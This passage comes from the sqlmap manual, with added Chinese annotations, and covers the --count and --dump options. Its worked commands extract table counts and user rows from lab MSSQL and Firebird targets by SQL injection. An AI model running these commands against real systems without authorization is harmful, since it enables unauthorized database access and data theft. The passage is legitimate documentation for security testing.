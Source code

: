 ```
### Retrieve number of entries for table(s)

Switch: `--count`

In case that user wants just to know the number of entries in table(s) prior to dumping the desired one, he can use this switch.			
这个选项会显示表中字段数的多少 以让你进行挑选 方便下载

Example against a Microsoft SQL Server target:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### Dump database table entries

Switch and options: `--dump`, `-C`, `-T`, `-D`, `--start`, `--stop`, `--first`, `--last`, `--pivot-column` and `--where`

When the session user has read access to a specific database's table it is possible to dump the table entries.		
有读权限的话 那么你可以下载表中的数据

This functionality depends on option `-T` to specify the table name and optionally on option `-D` to specify the database name. If the table name is provided, but the database name is not, the current database name is used.		
    `-D`用于指定数据库`-T`用于指定库中的表 同样 表名选中 数据库名没有提供的话 默认使用当前所连接的数据库的名字

Example against a Firebird target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\
 --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

```